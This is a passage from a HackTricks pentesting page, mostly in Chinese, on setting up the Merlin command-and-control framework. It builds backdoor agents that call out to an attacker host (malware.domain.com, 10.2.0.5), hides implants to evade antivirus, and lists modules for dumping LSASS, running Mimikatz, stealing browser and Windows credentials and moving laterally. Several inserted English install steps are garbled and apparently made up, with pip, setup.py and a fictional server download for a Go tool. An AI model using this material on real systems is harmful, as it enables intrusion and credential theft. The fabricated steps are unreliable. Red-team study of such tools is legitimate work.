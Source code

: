 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)

- **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或者**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>


# 安装

## 安装GO
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## 安装Merlin

To install Merlin, follow these steps:

1. Clone the Merlin repository from GitHub:

   ```
   git clone https://github.com/Ne0nd0g/merlin.git
   ```

2. Change into the Merlin directory:

   ```
   cd merlin
   ```

3. Install the required dependencies:

   ```
   pip install -r requirements.txt
   ```

4. Run the setup script:

   ```
   python setup.py install
   ```

5. Verify that Merlin is installed correctly by running the following command:

   ```
   merlin --help
   ```

   If you see the help menu, then Merlin is installed successfully.

Congratulations! You have successfully installed Merlin on your system. You can now proceed to use its powerful backdoor capabilities for your penetration testing activities.
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# 启动Merlin服务器

To launch the Merlin server, follow these steps:

1. Download the Merlin server package from the official website.
2. Extract the contents of the package to a directory of your choice.
3. Open a terminal or command prompt and navigate to the directory where you extracted the package.
4. Run the following command to start the Merlin server:

   ```bash
   ./merlin-server
   ```

   If you encounter any permission issues, you may need to use `sudo` or run the command as an administrator.

5. The Merlin server should now be running and listening for incoming connections on the default port (usually 8080). You can access the server by opening a web browser and entering the server's IP address followed by the port number.

   For example: `http://192.168.0.1:8080`

   Note: Make sure to replace `192.168.0.1` with the actual IP address of your Merlin server.

6. You will be prompted to set up an initial admin account and configure other settings. Follow the on-screen instructions to complete the setup process.

Congratulations! You have successfully launched the Merlin server. You can now use it to manage and control your backdoor implants.
```
go run cmd/merlinserver/main.go -i
```
# Merlin代理

您可以[下载预编译的代理](https://github.com/Ne0nd0g/merlin/releases)

## 编译代理

转到主文件夹 _$GOPATH/src/github.com/Ne0nd0g/merlin/_
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **手动编译代理程序**

In some cases, you may need to manually compile an agent program to create a custom backdoor. This can be useful when you want to avoid detection by antivirus software or when you need to tailor the backdoor to specific requirements.

以下是手动编译代理程序的步骤：

1. **选择合适的编程语言**：选择一种适合你的需求的编程语言，如C、C++、Python等。

2. **编写代理程序代码**：根据你的需求编写代理程序的代码。确保代码实现了所需的功能，如远程访问、文件传输等。

3. **编译代理程序**：使用编程语言的编译器将代理程序代码编译成可执行文件。确保编译过程没有错误。

4. **测试代理程序**：在安全环境中测试代理程序，确保它按预期工作并没有引起异常。

5. **隐藏代理程序**：使用技术手段将代理程序隐藏在合法的文件或进程中，以避免被检测到。

6. **部署代理程序**：将编译好的代理程序部署到目标系统中，并确保它能够在后台运行。

请注意，手动编译代理程序需要一定的编程和系统知识。在进行此操作时，请确保你有合法的授权，并遵守法律和道德规范。
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# 模块

**坏消息是，Merlin使用的每个模块都是从源代码（Github）下载并保存在磁盘上，然后再使用。在使用知名模块时要小心，因为Windows Defender会发现你！**


**SafetyKatz** --> 修改版的Mimikatz。将LSASS转储到文件并启动：sekurlsa::logonpasswords以将其写入该文件\
**SharpDump** --> 为指定的进程ID进行minidump（默认为LSASS）（最终文件的扩展名是.gz，但实际上是.bin，但是是一个gz文件）\
**SharpRoast** --> Kerberoast（不起作用）\
**SeatBelt** --> CS中的本地安全性测试（不起作用）https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> 使用csc.exe /unsafe进行编译\
**Sharp-Up** --> 在powerup中使用C#进行所有检查（起作用）\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNS欺骗和中间人工具（不起作用，需要加载：https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1）\
**Invoke-InternalMonologue** --> 模拟所有可用用户并为每个用户检索挑战-响应（每个用户的NTLM哈希）（错误的URL）\
**Invoke-PowerThIEf** --> 从IExplorer窃取表单或使其执行JS或在该进程中注入DLL（不起作用）（而且PS看起来也不起作用）https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> 获取浏览器密码（起作用，但不打印输出目录）\
**dumpCredStore** --> Win32凭据管理器API（https://github.com/zetlen/clortho/blob/master/CredMan.ps1）https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> 检测正在运行的进程中的经典注入（经典注入（OpenProcess，VirtualAllocEx，WriteProcessMemory，CreateRemoteThread））（不起作用）\
**Get-OSTokenInformation** --> 获取正在运行的进程和线程的令牌信息（用户、组、特权、所有者...https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-_token_information_class）\
**Invoke-DCOM** --> 通过DCOM在其他计算机上执行命令（http://www.enigma0x3.net.）（https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/）\
**Invoke-DCOMPowerPointPivot** --> 滥用PowerPoint COM对象（ADDin）在其他计算机上执行命令\
**Invoke-ExcelMacroPivot** --> 滥用Excel中的DCOM在其他计算机上执行命令\
**Find-ComputersWithRemoteAccessPolicies** -->（不起作用）（https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/）\
**Grouper** --> 它转储了组策略的所有最有趣的部分，然后在其中寻找可利用的东西。（已弃用）看看Grouper2，看起来非常好\
**Invoke-WMILM** --> 使用WMI进行横向移动\
**Get-GPPPassword** --> 查找groups.xml、scheduledtasks.xml、services.xml和datasources.xml并返回明文密码（在域内）\
**Invoke-Mimikatz** --> 使用mimikatz（默认转储凭证）\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> 检查计算机上用户的特权\
**Find-PotentiallyCrackableAccounts** --> 检索与SPN关联的用户帐户的信息（Kerberoasting）\
**psgetsystem** --> getsystem

**没有检查持久性模块**

# 简介

我真的很喜欢这个工具的感觉和潜力。\
我希望工具能够从服务器下载模块并在下载脚本时集成某种逃避机制。


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得最新版本的PEASS或下载PDF格式的HackTricks吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)

- **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧。**

</details>
